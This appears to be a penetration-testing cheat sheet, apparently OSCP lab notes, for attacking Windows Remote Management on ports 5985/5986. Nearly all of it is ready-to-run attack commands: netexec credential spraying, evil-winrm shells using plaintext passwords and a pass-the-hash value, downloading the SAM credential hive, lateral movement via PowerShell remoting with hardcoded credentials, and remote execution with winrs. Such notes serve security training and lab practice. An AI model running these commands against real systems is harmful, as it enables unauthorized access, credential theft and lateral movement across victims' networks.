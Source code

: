 Port 5985/5986

spray:
```
netexec winrm 10.10.126.140 -u users.txt -H hash.txt
```

shell:
```
evil-winrm -i 172.16.230.83 -u wario -p Mushroom\!
```
- or PTH:
```
evil-winrm -i 10.129.139.85 -u administrator -H "2b87e7c93a3e8a0ea4a581937016f341"
```
- 2nd part of hash after : goes in quotes
to download files with evil-winrm:
```
download C:\windows.old\Windows\System32\SAM /home/daniel/OSCP_A/SAM
```
- SAM is file name

move laterally:
```
$User = "jim"

$Password = ConvertTo-SecureString "Castello1\!" -AsPlainText -Force

$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User, $Password

$Session = New-PSSession -ComputerName mail.relia.com -Credential $Credential

Invoke-Command -Session $Session -ScriptBlock {

    hostname }
```
if elevated session, enable PSSession:
```
Enable-PSRemoting -Force
```

rce:
```
winrs -r:192.168.1.10 ipconfig
```

